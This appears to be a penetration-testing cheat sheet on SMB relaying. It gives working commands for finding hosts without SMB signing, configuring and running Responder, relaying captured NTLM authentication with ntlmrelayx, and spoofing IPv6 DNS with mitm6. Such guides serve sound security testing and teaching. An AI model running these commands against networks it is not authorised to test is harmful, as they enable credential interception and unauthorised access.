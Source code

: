 # SMB Relaying

### Description

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions.&#x20;

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support --socks
```

### Attacking IPv6

While a majority of companies do not utilize IPv6, little know that it is actually enabled by default. By using a tool such as mitm6, we can act as a malicious DNS server and redirect traffic to our attack host.&#x20;

The following command demonstrates basic usage of IPv6:

```bash
sudo mitm6 -d $domain
```

Additionally, the following command demonstrates running mitm6 with the `--ignore-nofqnd` flag which will ignore DHCPv6 queries that do not contain the Fully Qualfiied Domain Name:

```bash
sudo mitm6 -d $domain --ignore-nofqnd
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}
